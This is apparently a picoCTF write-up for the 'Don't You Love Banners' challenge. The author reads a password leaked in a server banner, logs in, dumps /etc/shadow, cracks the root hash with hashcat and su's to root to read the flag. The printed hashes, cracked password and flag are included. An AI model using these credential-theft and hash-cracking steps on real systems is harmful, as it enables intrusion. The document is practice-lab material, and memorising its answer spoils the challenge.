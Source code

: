 # **Don't You Love Banners**

## **Problem**
Can you abuse the banner? The server has been leaking some crucial information on tethys.picoctf.net 57623. 
Use the leaked information to get to the server. To connect to the running application use nc tethys.picoctf.net 56550. 
From the above information abuse the machine and find the flag in the /root directory.

## **Solution**
First NC the leaking server...it gives you the password!

└─$ nc tethys.picoctf.net 57623
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

Then go to the next server and enter in the password. It will ask you 2 questions which after a little Google Searching 
you will answer easily.

└─$ nc tethys.picoctf.net 56550
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
def con

the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper


player@challenge:~$ 


### now that you are in, find the flag.; a quick ls -la will show the flag.txt file

### I actually didnt use the hints to get the flag...I checked the etc folder and was given access. Becuase this was open I jumped straight to the shadow folder and hit it with a the cat function:

player@challenge:~$ cd /etc

cd /etc

player@challenge:/etc$ cat shadow

cat shadow

root:$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:19791:0:99999:7:::
daemon:*:19507:0:99999:7:::
bin:*:19507:0:99999:7:::
sys:*:19507:0:99999:7:::
sync:*:19507:0:99999:7:::
games:*:19507:0:99999:7:::
man:*:19507:0:99999:7:::
lp:*:19507:0:99999:7:::
mail:*:19507:0:99999:7:::
news:*:19507:0:99999:7:::
uucp:*:19507:0:99999:7:::
proxy:*:19507:0:99999:7:::
www-data:*:19507:0:99999:7:::
backup:*:19507:0:99999:7:::
list:*:19507:0:99999:7:::
irc:*:19507:0:99999:7:::
gnats:*:19507:0:99999:7:::
nobody:*:19507:0:99999:7:::
_apt:*:19507:0:99999:7:::
systemd-network:*:19791:0:99999:7:::
systemd-resolve:*:19791:0:99999:7:::
messagebus:*:19791:0:99999:7:::
sshd:*:19791:0:99999:7:::


player:$6$BCCW51fi$UI/5W01uG2.6EmxktMtZXbJQwrgDlv213cLwu7RxaIQHnRZXwKZ3yjuyNKf86KlSwbvAOp3YozpNVrBeKW9Ls0:19791:0:99999:7:::


### there is our root password with sha512crypt (we know this because of the $6$)....run hashcat with 1800 for the format and --show to produce the results

─$ hashcat -a 0 -m 1800 hash /usr/share/seclists/Passwords/Cracked-Hashes/milw0rm-dictionary.txt --show
$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:iloveyou


### now with the root password just su root...enter iloveyou and you have all rights

player@challenge:/etc$ su root

su root

Password: iloveyou

### locate and cat the flag

root@challenge:/etc# cd /root
cd /root
root@challenge:~# ls -la
ls -la
total 16
drwxr-xr-x 1 root root    6 Mar 12 00:18 .
drwxr-xr-x 1 root root   29 Mar 27 18:14 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar 12 00:18 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7 17:25 script.py

root@challenge:~# cat flag.txt

cat flag.txt

picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}



